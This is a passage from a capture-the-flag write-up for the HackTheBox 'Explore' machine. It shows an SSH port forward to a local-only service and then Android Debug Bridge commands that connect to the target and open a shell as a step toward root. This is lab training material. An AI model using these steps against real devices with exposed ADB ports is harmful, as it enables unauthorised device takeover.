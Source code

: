 As the service is only listening on `localhost` on the target, we need to forward the port to our machine. Since we already have SSH access, we can use SSH tunneling.

```bash
ssh -L 5555:localhost:5555 kristi@explore -p 2222
```

## Escalating to root via adb

Before we start with exploitation, we need to install a required package, the `Android Debug Bridge`.

```bash
apt install -y adb
```

Next, we start the server in the background.

```bash
adb start-server
```

Now we can connect to the bridge.

```bash
adb connect localhost:5555
```

![adb Connecton](/images/writeups/htb-explore/adb_connect.png)

If we check for connected devices, we can see our target showing up.

```bash
adb devices
```

![adb Devices](/images/writeups/htb-explore/adb_devices.png)

As we are connected to the debug bridge, we can use it to open a shell.

```bash
adb -s localhost shell
```
